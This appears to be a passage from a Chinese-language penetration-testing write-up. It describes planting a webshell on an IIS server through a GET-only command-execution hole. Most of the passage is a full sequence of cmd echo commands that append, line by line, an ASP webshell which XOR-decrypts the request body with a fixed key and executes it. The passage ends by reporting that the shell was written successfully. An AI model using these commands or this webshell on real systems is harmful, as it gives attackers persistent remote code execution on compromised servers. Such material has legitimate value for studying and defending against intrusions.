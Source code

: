 那就直接往IIS的Web应用目录写入webshell就好了，因为只支持GET请求，URL有长度限制，因此需要通过追加文件的方式分段写入，可以一行一行写，也可以通过写入base64编码的webshell减少追加写入的次数，然后用certutil解码。  

```plain
cmd /c echo ^<% > D:\\release\\***\\***\\test1.asp
cmd /c echo Response.CharSet = "UTF-8" >> D:\\release\\***\\***\\test1.asp
cmd /c echo k="e45e329feb5d925b" >> D:\\release\\***\\***\\test1.asp
cmd /c echo Session("k")=k >> D:\\release\\***\\***\\test1.asp
cmd /c echo size=Request.TotalBytes >> D:\\release\\***\\***\\test1.asp
cmd /c echo content=Request.BinaryRead(size) >> D:\\release\\***\\***\\test1.asp
cmd /c echo For i=1 To size >> D:\\release\\***\\***\\test1.asp
cmd /c echo result=result&Chr(ascb(midb(content,i,1)) Xor Asc(Mid(k,(i and 15)+1,1))) >> D:\\release\\***\\***\\test1.asp
cmd /c echo Next >> D:\\release\\***\\***\\test1.asp
cmd /c echo execute(result) >> D:\\release\\***\\***\\test1.asp
cmd /c echo %^> >> D:\\release\\***\\***\\test1.asp
```

成功写入webshell。  

![图片](assets/1706513706-731bf9d759c7770c788b3d8603d3016b.png)

